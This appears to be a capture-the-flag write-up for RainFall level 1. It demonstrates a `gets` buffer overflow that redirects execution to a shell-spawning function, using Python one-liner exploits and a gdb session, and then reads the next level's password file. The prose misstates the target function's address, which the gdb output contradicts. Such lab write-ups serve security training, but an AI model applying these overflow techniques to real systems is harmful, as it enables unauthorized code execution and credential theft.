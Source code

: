 # Level 1

From the source (thank you Ghidra), we can see the main calls the vulnerable function `gets` with a buffer of size 76.
We can also see another function called run at memory address 0x08048480.

So we can do a buffer overflow exploit where we fill the entire buffer with random values (here A's) and directly afterwards (in the return address), we write the memory address of the run function but in Little-Endian notation.
And we use `cat` to keep the shell open.

```bash
(python -c 'import struct; print 76 * "A" + struct.pack("<Q", 0x08048444)'; cat) | ./level1
# Or if you don't like struct.pack:
(python -c 'print 76 * "A" + "\x44\x84\x04\x08"'; cat)  | ./level1 
```

## Putting it all together:

```shell
level1@RainFall:~$ gdb ./level1
[...]
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
(gdb) quit
level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<Q", 0x08048444)'; cat -) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
[censored]
```
